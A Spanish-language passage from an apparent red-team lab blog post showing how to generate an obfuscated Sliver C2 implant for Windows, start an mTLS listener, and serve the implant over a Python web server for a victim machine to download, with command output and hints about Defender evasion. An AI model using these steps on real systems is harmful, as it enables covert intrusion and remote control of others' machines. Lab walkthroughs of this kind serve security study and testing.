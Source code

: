 {% code overflow="wrap" %}
```bash
sliver > generate --mtls 172.19.0.128 --os windows --arch amd64 --format exe --save ~/Documents/sliverTest/

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 37s
[*] Implant saved to /home/kali/Documents/sliverTest/GROSS_DRIVER.exe
```
{% endcode %}

Sliver generará un implante con nombre aleatorio si no se especifíca, en mi caso GROSS\_DRIVER.exe es el candidato.

### mTLS Listener

Luego de generar el implante, se requiere levanta un mTLS listener, esto es muy simple, solo se tiene que ocupar el comando `mtls` y luego el comando `jobs` para lista los listeners y sobre que puerto corren:

```
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1

sliver > jobs

 ID   Name   Protocol   Port   Stage Profile 
==== ====== ========== ====== ===============
 1    mtls   tcp        8888                 
```

### Deliver and execute

Para la entrega (deliver) y ejecución del malware, se optó por el uso de `python -m http.server` en la carpeta donde se encuentra, el implante y luego en la maquina victima solo se tiene que descargar y ejecutar el implante. Existen muchas formas de deliver o entrega de malware, se puede llegar desde la ejecución de algún exploit, desde ingeniería social, por medio de un usb entre otras. En este post solo se explora la forma de deliver desde descarga web de los binarios, tome en cuenta que los implantes de sliver suelen ser detectados por Microsoft Defender, se puede crear un [<mark style="color:green;">**stager**</mark>](stagers-basics.md) personalizado con alguna técnica de evasión de sistemas de detección, para eso se recomienda leer las entradas de Malware escritas en este blog:

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

{% code overflow="wrap" %}
```python
❯ ls
GROSS_DRIVER.exe  index.html
❯ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.19.0.131 - - [27/Nov/2023 10:10:15] "GET / HTTP/1.1" 200 -
172.19.0.131 - - [27/Nov/2023 10:10:15] code 404, message File not found
172.19.0.131 - - [27/Nov/2023 10:10:15] "GET /favicon.ico HTTP/1.1" 404 -
172.19.0.131 - - [27/Nov/2023 10:10:42] "GET /GROSS_DRIVER.exe HTTP/1.1" 200 -
```
{% endcode %}

